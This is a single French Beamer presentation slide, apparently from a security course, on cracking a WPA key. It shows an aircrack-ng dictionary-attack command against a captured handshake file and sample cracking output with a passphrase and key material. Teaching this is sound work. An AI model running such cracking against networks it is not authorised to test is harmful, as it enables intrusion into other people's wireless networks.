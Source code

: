 \documentclass[10pt,sans,usenames,dvipsnames,french,compress]{beamer}
\begin{document}
\subsubsection{Cassage de la clef WPA}
\begin{frame}[fragile]{Cassage de la clef WPA}
	\begin{block}{Commande}
		\vspace{-3mm}
		\begin{lstlisting}[style=Term]
			~# aircrack-ng -w generated_dict.txt psk-01.cap
		\end{lstlisting}
		\vspace{-2mm}
	\end{block}

	\begin{block}{Cassage en cours}<2->
		\vspace{-3mm}
		\begin{lstlisting}[style=Term]
			                          Aircrack-ng 1.5.2 

		      [00:00:00] 3852/60999 keys tested (5333.67 k/s) 

		      Time left: 10 seconds                                      6.31%

		                       Current passphrase: ASSESSMENT91               


		      Master Key     : 66 A8 42 94 79 45 03 6F C9 A1 11 33 AA 52 55 D0 
		                       3E 26 2F 55 43 A4 EC 36 E3 13 3C D6 17 B0 96 AC 

		      Transient Key  : CE CF A3 E6 2F 92 8C 5E 94 10 3F 8E 10 F9 FC 92 
		                       25 D3 FE F2 7F D1 4F 27 C1 51 71 8D F5 75 17 5C 
		                       08 F4 5C 2C C8 42 F1 BD 20 3B D7 79 03 2F 05 90 
		                       16 E1 E9 92 BB 73 6A 93 6E F8 7A 80 2F 51 81 9E 

		      EAPOL HMAC     : FC 99 11 B1 45 5C E1 B6 74 E5 2D CB A5 88 21 E1
		\end{lstlisting}
		\vspace{-2mm}
	\end{block}
\end{frame}
\end{document}
